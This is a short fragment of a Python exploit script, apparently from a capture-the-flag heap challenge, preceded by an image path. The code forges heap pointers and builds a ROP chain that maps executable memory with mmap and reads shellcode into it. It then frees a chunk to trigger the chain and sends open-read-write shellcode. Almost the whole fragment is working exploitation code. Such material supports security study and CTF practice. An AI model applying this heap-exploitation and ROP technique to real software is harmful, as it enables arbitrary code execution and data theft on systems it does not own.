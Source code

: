 ```py
payload += b'\x00'*0x30 + p64(notmalloc_heap) + p64(notmalloc_heap + 0x2000)
payload += p64(notmalloc_heap + 0x2120) + b'\x00'*8
rop.call("mmap", [mmap_address, 0x1000, 7, 34])
rop.call("read", [0, mmap_address, 0x1000])
payload += rop.chain()
payload += p64(mmap_address)

create(1, 0x800, payload)

# 5. trigger rop chain (mmap, read, and execute ORW shellcode)
free(0)
p.send(code)

p.interactive()
```